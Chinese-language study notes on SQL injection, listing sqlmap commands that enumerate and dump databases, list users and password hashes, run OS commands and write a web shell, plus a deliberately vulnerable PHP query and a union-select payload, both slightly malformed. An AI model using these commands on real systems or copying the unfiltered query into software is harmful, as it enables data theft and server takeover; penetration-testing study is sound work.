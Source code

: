 # 	SQL注入笔记

### SQLMAP使用

``` shell
python sqlmap.py -u "URL"	//判断是否存在注入点
python sqlmap.py -u "URL" --dbs		//查询有哪些数据库
python sqlmap.py -u "URL" -D 数据库名 --tables 		//输出指定数据库内有哪些表
python sqlmap.py -u "URL" -D 数据库名 -T 表名 --columns		//输出指定表所存在的字段
python sqlmap.py -u "URL" -D 数据库名 -T 表明 -C "字段名1,字段名2,字段名3" --dump 		//输出指定字段的内容
//POST型注入
python sqlmap.py -u "URL" --data "post内容"	//后面参数同上一样
python sqlmap.py -u "URL" --forms		//自动寻找表单并注入
python sqlmap.py -u "URL"-r "POST数据文本文件" [-p "参数名" 		//可选参数，指定参数名。也可以在文件中的参数内容置换成*符号]

//查看权限写shell
sqlmap.py -u "url" --user 	//列出数据库的所以用户
sqlmap.py -u "url" --passwords 		//列出数据库用户的密码
sqlmap.py -u "url" --current-db 	//查看当前使用网站数据库的名字
sqlmap.py -u "url" --current-user 	//查看当前网站数据库的用户名称
sqlmap.py -u "url" –roles 		//用于查看数据库用户的角色。如果当前用户有权限读取包含所有用户的表，输入该命令会列举出每个用户的角色，也可以用-U 参数指定想看那个用户的角色。
sqlmap.py -u "url" --is-dba 		//查看当前用户是否是管理员权限 True 代表有，如果没有的话就是 False。如果，你验证了，是 dba 权限,那么就可以执行下面的命令了。
在数据库为 mysql、postgresql、sql server 时可以用 sqlmap.py -u "url" --os-cmd来模拟一个 cmd 命令，然后执行一些命令，比如 sqlmap.py -u "url" --os-cmd=ipconfig来获得 ip。
sqlmap.py -u "url" --os-shell 写入一个 shell，这里默认是 php，如果是别的要自己选择。
```

### SQL注入原理

SQL注入实质上就是web对用户传入的数据没有进行过滤，直接将用户传入的数据拼接到SQL命令中。当用户构造特殊的字符拼接到SQL命令中，SQL服务器会错误的将参数理解为SQL语句，从而执行任意SQL语句。造成SQL注入。

例如下列代码

```php+HTML
<?php
$a = $_GET['id'];
$conn = new sqli('localhost','db_user',db_pwd','db_name','port');
$sql = 'select * from users where id ='.$a;
$result = $conn->query($sql);
?>
```

这里没有对用户传进来的id进行鉴别过滤。如果传进来的参数是

```sql
http://localhost/index.php?id=1 and union select * from users;
//sql语句就会变成
select * from users where id =1 and union select * from users；
```
